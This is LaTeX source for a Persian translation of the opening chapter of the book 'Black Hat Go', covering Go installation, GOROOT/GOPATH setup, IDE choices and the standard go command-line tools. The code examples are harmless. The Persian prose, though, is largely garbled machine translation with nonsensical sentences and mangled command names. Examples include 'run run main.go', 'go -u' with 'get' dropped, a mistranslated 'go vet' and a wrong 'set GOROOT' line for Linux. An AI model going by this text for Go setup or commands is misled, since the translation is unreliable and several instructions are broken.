\documentclass[12pt]{book}
\usepackage{listings}
\lstset{
	language=bash,
	basicstyle=\ttfamily
}
\usepackage{hyperref}
\usepackage{makeidx}
\makeindex
\usepackage{graphicx}
\usepackage{xepersian}
\settextfont{B Nazanin.ttf}
\setlatintextfont{Accanthis ADF Std No3}


\title{\lr{Go} کلاه سیاه}
\author{مترجم: محمد حایری}

\begin{document}
\maketitle
\tableofcontents
\setcounter{chapter}{-1}
\chapter{مقدمه}
\chapter{مفاهیم و اصول \lr{Go}}
این فصل شما را با روند تنظیم محیط توسعه \lr{Go} و معرفی شما با نحو نوشتار زبان راهنمایی می‌کند.
مردم كلی كتاب در زمینه مکانیك اساسی زبان نوشتند;
این فصل ابتدایی ترین مفاهیم مورد نیاز شما را پوشش می‌دهد برای اینکه از طریق مثال‌های کد در فصل‌های بعدی کار کنید.
همه چیز را از انواع داده‌های ابتدایی گرفته تا اجرای همزمان استفاده خواهیم کرد.
برای خوانندگانی که از قبل به این زبان تبحر دارند ، بخش عمده ای از این فصل را برای بررسی مشاهده خواهید کرد.
\section{ایجاد یک محیط توسعه}
برای شروع کار با \lr{Go} ، به یک محیط توسعه عملکردی نیاز دارید.
در این بخش ، شما را از طریق مراحل بارگیری و تنظیم متغیرهای محیط کاری و محیطی شما ، طی می کنیم.
ما در مورد گزینه های مختلف برای محیط توسعه یکپارچه شما و برخی از ابزارهای استاندارد همراه با \lr{Go} صحبت خواهیم کرد.
\subsection{بارگیری و نصب \lr{Go}}
با بارگیری نسخه باینری \lr{Go} متناسب با سیستم عامل و معماری خود از \lr{ https://golang.org/dl/} شروع کنید.
\lr{Binaries} برای \lr{Windows} ، \lr{Linux} و \lr{macOS} وجود دارد.
اگر از سیستمی استفاده می کنید که دودویی از پیش تنظیم نشده موجود نداشته باشد ، می توانید کد منبع را از این لینک دانلود کنید.
باینری را اجرا کنید و برای نصب کل مجموعه بسته های \lr{Go core} ، دستورالعمل ها را که حداقل خواهد بود ، دنبال کنید.
بسته هایی که در اکثر زبان های دیگر به آن‌ها کتابخانه گفته می شوند ، حاوی کد مفیدی هستند که می توانید در برنامه های خود استفاده کنید.
\subsection{تنظیم \lr{GOROOT} برای تعیین موقعیت مکانی باینری}
در مرحله بعد ، سیستم عامل باید بداند که چگونه نصب \lr{Go} را پیدا کند.
در بیشتر موارد ، اگر \lr{Go} را در مسیر پیش فرض ، مانند \lr{/usr/local/} بر روی یک سیستم مبتنی بر \lr{*Nix / BSD-based} نصب کرده باشید ، لازم نیست در اینجا اقدامی انجام دهید.
با این حال ، درصورتی که شما تصمیم به نصب \lr{Go} در یک مسیر غیر استاندارد کرده اید یا \lr{Go} را روی \lr{Windows} نصب کرده اید ، باید به سیستم عامل بگویید که کجا دودویی \lr{Go} را پیدا کنید.

% new paragraph
شما می توانید این کار را از خط فرمان خود با تنظیم متغیر محیط \lr{GOROOT} رزرو شده بر روی مکان دودویی خود انجام دهید. تنظیم متغیرهای محیطی مخصوص سیستم عامل است
در لینوکس یا \lr{macOS} ، می توانید این مورد را به \lr{\~/.profile} خود اضافه کنید:
\begin{latin}
	\begin{lstlisting}
	set GOROOT=/path/to/go
	\end{lstlisting}
\end{latin}
در ویندوز ، می توانید با کلیک بر روی دکمه \lr{Environment Variables} ، این متغیر محیط را از طریق \lr{System (Control Panel)} اضافه کنید.
\subsection{تنظیم \lr{GOPATH} برای تعیین موقعیت فضای کاری شما}
بر خلاف تنظیم \lr{GOROOT} خود ، که فقط در سناریوهای نصب خاصی لازم است ، شما همیشه باید یک متغیر محیطی به نام \lr{GOPATH} را تعیین کنید تا از ابزار \lr{Go} بروید که در آنجا کد منبع ، کتابخانه های شخص ثالث و برنامه های کامپایل شده شما وجود دارد.
این می تواند هر مکانی از انتخاب شما باشد.
پس از انتخاب و ایجاد این فهرست اصلی در فضای کاری ، سه زیرمجموعه زیر را در زیر ایجاد کنید: \lr{bin}، \lr{pkg} و \lr{src} (به زودی در این فهرست ها).
سپس یک متغیر محیطی به نام \lr{GOPATH} تنظیم کنید که به فهرست اصلی فضای کاری شما اشاره کند.
به عنوان مثال ، اگر می خواهید پروژه های خود را در دایرکتوری به نام \lr{gocode} واقع در دایرکتوری منزل خود در لینوکس قرار دهید ، \lr{GOPATH} را به ترتیب زیر تنظیم می کنید:
\begin{latin}
	\begin{lstlisting}
	GOPATH=$HOME/gocode
	\end{lstlisting}
\end{latin}
دایرکتوری \lr{bin} شامل \lr{binary} های اجرایی کامپایل شده و نصب شده شما می باشد.
باینری هایی که ساخته و نصب می شوند به طور خودکار در این مکان قرار می گیرند.
فهرست \lr{pkg} اشیاء بسته های مختلف ، از جمله وابستگی های شخص ثالث \lr{Go} را که ممکن است کد شما به آن اعتماد کند ، ذخیره می کند.
به عنوان مثال ، شاید شما می‌خواهید از کد برنامه‌نویس دیگری استفاده کنید که ظریف تر مسیریابی \lr{HTTP} را انجام می‌دهد.
فهرست \lr{pkg} شامل آثار باینری است که برای اجرای آنها در کد شما ضروری است.
سرانجام ، فهرست \lr{src} شامل همه کد منبع بد است که می نویسید.

%new paragraph
مکان فضای کاری شما دلخواه است ، اما دایرکتوری های موجود در داخل با این کنوانسیون و ساختار نامگذاری مطابقت دارند.
دستورات کامپایل ، ساخت و مدیریت بسته بندی که بعداً در این فصل با آنها می آموزید همه به این ساختار فهرست مشترک متکی هستند.
بدون این تنظیم مهم ، پروژه های Go کامپایل نخواهند شد و نمی توانند هیچ کدام از وابستگی های لازم خود را پیدا کنند!

%new paragraph
پس از پیکربندی متغیرهای مختلف \lr{GOROOT} و \lr{GOPATH} ، تأیید کنید که آنها به درستی تنظیم شده اند.
می توانید این کار را در لینوکس و ویندوز از طریق دستور \lr{set} انجام دهید.
همچنین ، بررسی کنید که سیستم شما می تواند باینری را پیدا کند و اینکه نسخه مورد انتظار \lr{Go} را با دستور\lr{ go version} نصب کرده اید:
\begin{latin}
	\begin{lstlisting}
	$ go version
	go version go1.11.5 linux/amd64
	\end{lstlisting}
\end{latin}
این دستور باید نسخه دودویی را که نصب کرده اید برگردانید.
\subsection{انتخاب یک محیط توسعه یکپارچه}
در مرحله بعد ، احتمالاً می خواهید یک محیط توسعه یکپارچه (\lr{IDE}) را انتخاب کنید که در آن کد خود را بنویسید.
اگرچه یک \lr{IDE} لازم نیست ، بسیاری از ویژگی هایی دارند که به کاهش خطاها در کد شما کمک می کنند ، افزودن کلید های میانبر کنترل نسخه ، کمک به مدیریت بسته بندی و موارد دیگر
از آنجا که \lr{Go} هنوز یک زبان نسبتاً جوان است ، ممکن است \lr{IDE} های بالغ به اندازه زبان های دیگر وجود نداشته باشد.
خوشبختانه پیشرفتهای چند سال اخیر شما را با چندین گزینه کاملاً برجسته رها می کند.
ما برخی از آنها را در این فصل مرور خواهیم کرد.
برای لیست کامل تر گزینه های ID\lr{IDE}E یا ویرایشگر ، صفحه ویکی بروید را در\lr{ https://github.com/golang/go/wiki/IDEsAndTextEditorPlugins/} ببینید.
این کتاب \lr{IDE} / ویرایشگر \lr{agnostic} است ، به این معنی که ما شما را به هیچ راه حل وادار نخواهیم کرد.
\subsubsection{ویرایشگر \lr{Vim}}
ویرایشگر متن \lr{Vim} ، که در بسیاری از توزیع های سیستم عامل موجود است ، یک محیط توسعه متنوع ، گسترده و کاملاً باز منبع باز را فراهم می کند.
یکی از ویژگیهای جذاب \lr{Vim} این است که به کاربران امکان می دهد همه چیز را از ترمینال خود اجرا کنند بدون اینکه رابط کاربری گرافیکی فانتزی به راه خود ادامه دهند.

%new paragraph
\lr{Vim} حاوی اکوسیستم وسیعی از افزونه ها است که از طریق آن می توانید تم ها را به صورت دلخواه تنظیم کنید ، کنترل نسخه را اضافه کنید ، قطعه را تعریف کنید ، طرح بندی و ویژگی های پیمایش کد را اضافه کنید ، شامل خودکار باشد ، اجرای نحو و برجسته سازی نحوی و موارد دیگر را نیز انجام دهد.
رایج ترین سیستم های مدیریت افزونه \lr{Vim} شامل \lr{Vundle} و \lr{Pathogen} است.

%new paragraph
برای استفاده از \lr{Vim for Go} ، افزونه \lr{vim-go} (\lr{https://github.com/fatih/vim-go/}) را که در شکل 1-1 نشان داده شده است ، نصب کنید.
\begin{figure}
	\caption{افزونه \lr{vim-go}}
	\centering
	
\includegraphics[width=1\textwidth]{images/Kazam_screenshot_00002.png}
\end{figure}

البته برای استفاده از \lr{Vim for Go} ، باید با \lr{Vim} راحت شوید.
علاوه بر این ، شخصی سازی محیط توسعه شما با تمام ویژگی های مورد نظر شما ممکن است یک روند ناامید کننده باشد.
اگر از \lr{Vim} استفاده می کنید ، که رایگان است ، به احتمال زیاد باید برخی از راحتی های \lr{IDE} تجاری را قربانی کنید.
\subsubsection{\lr{GitHub Atom}}
\lr{IDE GitHub} ، موسوم به \lr{Atom (https://atom.io/)} ، یک ویرایشگر متن قابل هک و با ارائه بزرگ بسته های جامعه محور است.
بر خلاف \lr{Vim} ، \lr{Atom} به جای یک راه حل درون ترمینال ، همانطور که در شکل 1-2 نشان داده شده است ، برنامه \lr{IDE} اختصاصی را ارائه می دهد.
\begin{figure}
	\caption{اتم با پشتیبانی Go}
	\centering
	
\includegraphics[width=1\textwidth]{images/atom.png}
\end{figure}

مانند \lr{Vim} ، \lr{Atom} رایگان است.
این کاشی کاری ، مدیریت بسته بندی ، کنترل نسخه ، اشکال زدایی ، تکمیل خودکار و تعداد بیشماری از ویژگی های اضافی از جعبه یا از طریق استفاده از افزونه \lr{go-plus} ، فراهم می کند که پشتیبانی اختصاصی را از آن استفاده می کند \lr{(https: // atom .io / packes / go-plus /)}.
\subsubsection{\lr{Microsoft Visual Studio Code}}
کد ویژوال استودیو مایکروسافت یا\lr{ VS Code (https://code.visualstudio.com) }، مسلماً یکی از پرمخاطب ترین و ساده ترین برنامه های \lr{IDE} برای پیکربندی است.
\lr{VS Code} ، که در شکل 1-3 نشان داده شده است ، کاملاً متن باز است و تحت مجوز \lr{MIT} توزیع می شود.
\begin{figure}
	\caption{VS Code IDE با پشتیبانی Go}
	\centering
	
\includegraphics[width=1\textwidth]{images/vscode.png}
\end{figure}

VS Code از مجموعه متنوعی از برنامه های افزودنی برای مضامین ، نسخه سازی ، تکمیل کد ، اشکال زدایی ، پوشش و قالب بندی پشتیبانی می کند.
می توانید با یک پسوند vscode-go ، یکپارچه سازی Go را دریافت کنید (https://github.com/Microsoft/vscode-go/).
\subsubsection{JetBrains GoLand}
مجموعه ابزارهای توسعه JetBrains کارآمد و دارای ویژگی های ممتازی هستند ، و پروژه های توسعه حرفه ای و سرگرمی را نیز آسان می کنند.
شکل 1-4 نشان می دهد که JetBrains GoLand IDE چگونه است.

\lr{\emph{GoLand}} یک IDE تجاری JetBrains است که به زبان Go اختصاص داده شده است.
قیمت گذاری برای GoLang برای دانشجویان متفاوت است ، سالانه 89 دلار برای افراد و سالانه 199 دلار برای سازمان ها.
GoLand تمام ویژگی های مورد انتظار یک IDE ثروتمند را ارائه می دهد ، از جمله اشکال زدایی ، تکمیل کد ، کنترل نسخه ، پوشش ، قالب بندی و موارد دیگر.
اگرچه پرداخت هزینه برای یک محصول ممکن است جذاب به نظر نرسد ، محصولات تجاری مانند GoLand معمولاً دارای پشتیبانی رسمی ، اسناد و مدارک ، رفع اشکال به موقع و برخی از اطمینان های دیگر که با نرم افزار سازمانی ارائه می شود هستند.
\begin{figure}
	\caption{VS Code IDE با پشتیبانی Go}
	\centering
	
\includegraphics[width=1\textwidth]{images/goland.png}
\end{figure}
\subsection{با استفاده از دستورات Common Go ابزار}
به چندین کشتی مفید بروید که فرایند توسعه را ساده تر می کنند.
این دستورات معمولاً در IDE ها گنجانده شده اند ، و این ابزار را در محیط های توسعه سازگار می سازد. بیایید نگاهی به این دستورات بیندازیم.
\subsubsection{The go run Command}
یکی از دستورات متداول شما در حین توسعه ، اجرای آن است که بسته اصلی یعنی نقطه ورود برنامه شما را کامپایل و اجرا می کند.

به عنوان نمونه ، کد زیر را در زیر دایرکتوری پروژه با قیمت \$ GOPATH / src ذخیره کنید (به یاد داشته باشید ، این فضای کاری را هنگام نصب ایجاد کرده اید) به عنوان main.go:
\begin{latin}
	\begin{lstlisting}
package main
import (
"fmt"
)
func main() {
	fmt.Println("Hello, Black Hat Gophers!")
}
	\end{lstlisting}
\end{latin}

از خط فرمان ، در دایرکتوری حاوی این پرونده ، run run main.go را اجرا کنید.
شما باید سلام ، Black Hat Gophers را ببینید! چاپ شده روی صفحه نمایش شما
\subsubsection{The go build Command}
توجه داشته باشید که اجرای پرونده شما را اجرا کرد ، اما این یک فایل باینری مستقل تولید نکرد.
That’s where go build comes in.
دستور go build بدون نصب نتایج ، برنامه شما ، از جمله بسته ها و وابستگی های آنها را کامپایل می کند.
این یک فایل باینری روی دیسک ایجاد می کند اما برنامه شما را اجرا نمی کند.
پرونده هایی که ایجاد می کند از پیوندهای نامگذاری معقول پیروی می کنند ، اما ناممکن است که با استفاده از گزینه خط فرمان-خروجی ، نام فایل دودویی ایجاد شده را تغییر دهید.

main.go را از مثال قبلی به hello.go تغییر دهید.
در یک پنجره ترمینال ، اجرای build hello.go را اجرا کنید.
اگر همه چیز به عنوان پیش بینی شده انجام شود ، این دستور باید یک فایل اجرایی با نام سلام را ایجاد کند.
اکنون این دستور را وارد کنید:
\begin{latin}
	\begin{lstlisting}
	$ ./hello
	Hello, Black Hat Gophers!
	\end{lstlisting}
\end{latin}

این باید فایل باینری مستقل را اجرا کند.

به طور پیش فرض ، فایل باینری تولید شده حاوی اطلاعات اشکال زدایی و جدول نمادها است.
این می تواند اندازه پرونده را نفخ کند.
برای کاهش اندازه پرونده ، می توانید در طول مراحل ساخت ، پرچم های دیگری را وارد کنید تا این اطلاعات از باینری خارج شود.
به عنوان مثال ، دستور زیر اندازه باینری را تقریباً 30٪ کاهش می دهد:
\begin{latin}
	\begin{lstlisting}
	$ go build -ldflags "-w -s"
	\end{lstlisting}
\end{latin}

داشتن یک باینری کوچکتر باعث می شود در حین انجام تلاشهای ناعادلانه خود ، انتقال یا تعبیه آن کارآمدتر شوید.
\subsubsection{Cross-Compiling}
استفاده از go build برای اجرای یک باینری بر روی سیستم فعلی یا یکی از معماری های یکسان بسیار عالی است ، اما اگر می خواهید یک باینری بسازید که بتواند روی معماری متفاوت اجرا شود ، چه می کنید؟
این جایی است که جمع آوری متقابل وارد می شود.
کامپایل یکی از جالب ترین جنبه های Go است ، زیرا هیچ زبان دیگری نمی تواند به راحتی این کار را انجام دهد.
دستور build به شما امکان می دهد تا برنامه خود را برای چندین سیستم عامل و معماری کامپایل کنید.
برای اطلاعات بیشتر در مورد ترکیب های مجاز سیستم عامل سازگار و انواع تلفیق معماری ، به اسناد رسمی برو بروید \lr{ https://golang.org/doc/install/source\#en Environment/} برای جزئیات بیشتر.

برای کامپایل کردن متقابل ، باید یک محدودیت را تنظیم کنید.
این فقط وسیله ای برای انتقال اطلاعات به فرمان ساخت در مورد سیستم عامل و معماری است که می خواهید کد خود را کامپایل کنید.
این محدودیت ها شامل GOOS (برای سیستم عامل) و GOARCH (برای معماری) است.

شما می توانید محدودیت های ساخت را از سه طریق معرفی کنید: از طریق خط فرمان ، نظرات کد یا یک کنوانسیون نامگذاری پسوند فایل.
ما در اینجا روش خط فرمان را مورد بحث قرار می دهیم و دو روش دیگر را برای شما می گذاریم که در صورت تمایل تحقیق کنید.

فرض کنیم شما می خواهید برنامه hello.go قبلی خود را که روی یک سیستم macOS ساکن است ، کاملاً کاملاً کامپایل کنید تا در معماری 64 بیتی لینوکس اجرا شود.

با تنظیم محدودیت های GOOS و GOARCH هنگام اجرای دستور build می توانید این کار را از طریق خط فرمان انجام دهید:
\begin{latin}
	\begin{lstlisting}
	$ GOOS="linux" GOARCH="amd64" go build hello.go
	$ ls
	hello  hello.go
	$ file hello
	hello: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
	\end{lstlisting}
\end{latin}

خروجی تأیید می کند که باینری حاصل یک فایل 64 بیتی ELF (Linux) است.

فرآیند جمع آوری متقاطع تقریباً در مورد هر زبان برنامه نویسی مدرن دیگر در Go بسیار ساده تر است.
تنها "gotcha" واقعی وقتی اتفاق می افتد که می توانید برنامه هایی را بکار ببرید که از اتصالات C بومی استفاده کنند.
ما از علفهای هرز خارج خواهیم شد و به شما اجازه می دهیم به طور مستقل در این چالش ها حفر کنید.
بسته به بسته هایی که وارد می کنید و پروژه هایی که توسعه می دهید ، ممکن است لازم نباشید خیلی اوقات نگران این موضوع باشید.
\subsubsection{The go doc Command}
دستور go doc به شما امکان می دهد مستندات مربوط به یک بسته ، عملکرد ، روش یا متغیر را مورد بازجویی قرار دهید.
این مستندات به عنوان کامنت از طریق کد شما تعبیه شده است.
بیایید نگاهی به نحوه به دست آوردن جزئیات در مورد عملکرد fmt.Println () بیاندازیم:
\begin{latin}
	\begin{lstlisting}
	go doc fmt.Println
	func Println(a ...interface{}) (n int, err error)
		Println formats using the default formats for its operands and writes to
		standard output. Spaces are always added between operands and a newline
		is appended. It returns the number of bytes written and any write error
		encountered.
	\end{lstlisting}
\end{latin}

خروجی که go doc تولید می کند ، مستقیماً از نظرات منبع منبع خارج می شود.
تا زمانی که بسته ها ، عملکردها ، روشها و متغیرهای خود را به طور کامل اظهار نظر کنید ، می توانید از طریق دستور go doc به طور خودکار اسناد را بررسی کنید.
\subsubsection{The go get Command}
بسیاری از برنامه های Go که شما در این کتاب ایجاد خواهید کرد ، به بسته های شخص ثالث نیاز دارند.
برای به دست آوردن کد منبع بسته ، از دستور go get استفاده کنید.
به عنوان مثال ، فرض می کنیم کد زیر را که واردات بسته stacktitan / ldapauth است وارد کرده اید:
\begin{latin}
	\begin{lstlisting}
	package main
	import (
	"fmt"
	"net/http"

	"github.com/stacktitan/ldapauth"
	)
	\end{lstlisting}
\end{latin}

حتی اگر بسته stacktitan / ldapauth را وارد کرده اید ، هنوز نمی توانید به این بسته دسترسی داشته باشید
شما ابتدا باید دستور go get را اجرا کنید.
با استفاده از go get github.com/stacktitan/ldapauth بسته واقعی را بارگیری کرده و آن را در فهرست دایرکتوری \$ GOPATH / src قرار می دهد.

درخت فهرست زیر ، قرار دادن ldapauthpackage در فضای کاری GOPATH شما را نشان می دهد:
\begin{latin}
	\begin{lstlisting}
$ tree src/github.com/stacktitan/
src/github.com/stacktitan/
└── ldapauth
	├── LICENSE
	├── README.md
	└── ldap_auth.go
	\end{lstlisting}
\end{latin}

توجه کنید که مسیر X و نام بسته وارداتی به گونه ای ساخته می شود که از اختصاص همان نام به چندین بسته جلوگیری می شود.
استفاده از github.com/stacktitan به عنوان مقدمه ای برای نام بسته واقعی ldapauth تضمین می کند که نام بسته بی نظیر است.

اگرچه توسعه دهندگان Go به طور سنتی وابستگی هایی را با go get نصب می کنند ، در صورت دریافت بسته های وابسته به روزرسانی هایی که سازگاری به عقب را دریافت می کنند ممکن است مشکل ایجاد شود.
Go برای جلوگیری از مشکلات سازگاری به عقب ، دو ابزار جداگانه - dep و mod را برای قفل کردن وابستگی ها به شما معرفی کرده است
با این حال ، این کتاب تقریبا به طور انحصاری با استفاده از go برای پایین آوردن وابستگی ها به کار می رود.
این امر به جلوگیری از ناسازگاری با ابزارهای مداوم مدیریت وابستگی کمک می کند و امیدوارم که شما بتوانید نمونه ها و کارها را آسانتر کنید.
\subsubsection{The go fmt Command}
دستور go fmt به طور خودکار کد منبع شما را فرمت می کند.
به عنوان مثال ، اجرای fmt / path / به / your / pack کد شما را با اعمال استفاده از خطوط مناسب ، تورفتگی و ترازبندی مناسب ، کد شما را سبک می کند.

پیروی از ترجیحات یک ظاهر طراحی شده دلخواه ممکن است در ابتدا عجیب به نظر برسد ، به خصوص اگر با عادات شما متفاوت باشد.
با این حال ، باید این قوام را با گذشت زمان با طراوت به دست آورید ، زیرا کد شما شبیه به سایر بسته های شخص ثالث خواهد بود و احساس نظم بیشتری پیدا می کنید.
بیشتر IDE ها دارای قلاب هایی هستند که هنگام ذخیره پرونده خود به طور خودکار اجرا می شوند ، بنابراین نیازی به اجرای صریح دستور نیست.
\subsubsection{The golint and go vet Commands}
با این وجود ، fmt یک ظاهر طراحی نحوی کد شما را تغییر می دهد ، خطاهای سبک golint از قبیل اظهار نظر مفقود ، نامگذاری متغیر که کنوانسیون های پایین ، مشخصات نوع بی فایده و موارد دیگر را گزارش نمی دهد ، را تغییر می دهد.
توجه کنید که golintis یک ابزار مستقل است و نه یک فرعی از باینری اصلی.
باید با استفاده از go -u golang.org/x/lint/golint آن را جداگانه نصب کنید.

به همین ترتیب ، برو دامپرس کد شما را بازرسی می کند و از اکتشافی برای شناسایی سازه های مشکوک مانند تماس با Printf () با انواع رشته نادرست قالب استفاده می کند.
فرماندهی Go veter سعی در شناسایی مواردی دارد که برخی از آنها اشکالات قانونی است که یک کامپایلر ممکن است از دست ندهد.
\subsubsection{Go Playground}
Go Playground یک محیط اجرایی است که در https://play.golang.org/ میزبان است و یک برنامه مقدماتی مبتنی بر وب را برای توسعه دهندگان فراهم می کند تا به سرعت توسعه ، آزمایش ، اجرای و اشتراک گذاری قطعات کد کد را به سرعت توسعه دهند.
این سایت بدون نیاز به نصب یا اجرای Go روی سیستم محلی خود ، امتحان کردن ویژگی های مختلف Go را آسان می کند.
این یک روش عالی برای آزمایش قطعه های کد قبل از ادغام آنها در پروژه های شما است.

همچنین به شما امکان می دهد تا در محیطی از پیش تنظیم شده به سادگی با تفاوت های ظریف زبان بازی کنید.
شایان ذکر است که Go Playground شما را از تماس برخی کارکردهای خطرناک برای جلوگیری از مثلاً اجرای دستورات سیستم عامل یا تعامل با وب سایت های شخص ثالث ، محدود می کند.
\subsubsection{Other Commands and Tools}
اگرچه ما به صراحت در مورد سایر ابزارها و دستورات بحث نخواهیم کرد ، ما شما را ترغیب می کنیم تحقیقات خود را انجام دهید. وقتی پروژه های پیچیده ای را ایجاد می کنید ، به احتمال زیاد تمایلی به استفاده از ابزار تست آزمون برای اجرای تست های واحد و معیارها ، پوشش برای بررسی پوشش تست ، واردات برای اصلاح صورت های واردات و موارد دیگر ندارید.
\section{درک \lr{Go syntax}}
اگر یک کتاب کامل باشد ، یک مرور جامع درباره کل زبان Go ، چندین فصل طول خواهد کشید. در این بخش مختصراً از نحو Go ، به طور خاص به انواع داده ها ، ساختارهای کنترل و الگوهای رایج ارائه شده است. این کار باید به عنوان نوسازی کننده برای رمزگذارهای گاه به گاه Go و مقدمه ای برای افراد تازه وارد زبان عمل کند.

برای مرور عمیق و مترقی زبان ، توصیه می کنیم که از طریق آموزش عالی تور Go (https://tour.golang.org/) بسیار عالی عمل کنید. این یک بحث جامع و مفصل در مورد زبانی است که به درس هایی با اندازه نیش خورده است که از یک زمین بازی تعبیه شده استفاده می کند تا بتواند هر یک از مفاهیم را امتحان کند.

